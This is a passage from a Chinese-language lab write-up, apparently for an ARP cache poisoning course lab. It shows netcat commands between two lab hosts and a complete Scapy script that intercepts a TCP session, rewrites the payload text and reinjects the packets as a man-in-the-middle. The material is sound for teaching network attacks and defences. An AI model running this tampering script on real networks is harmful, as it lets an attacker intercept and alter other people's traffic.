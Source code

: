攻击成功。

## Task 3: MITM Attack on Netcat using ARP Cache Poisoning

保持 `arp.py` 运行，然后 `B` 开启端口监听：

```shell
B-10.9.0.6$ nc -lp 9090
```

`A` 连接 `B`：

```shell
A-10.9.0.5$ nc 10.9.0.6 9090
```

此时，两者可以正常通信。

修改 `sniff_and spoof.py`：

```python
#!/usr/bin/env python3
from scapy.all import *
import re

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            newdata = data.replace(b'Chenyang', b'Yangchen')
            print(str(data) + " ==> " + str(newdata))
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)

f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

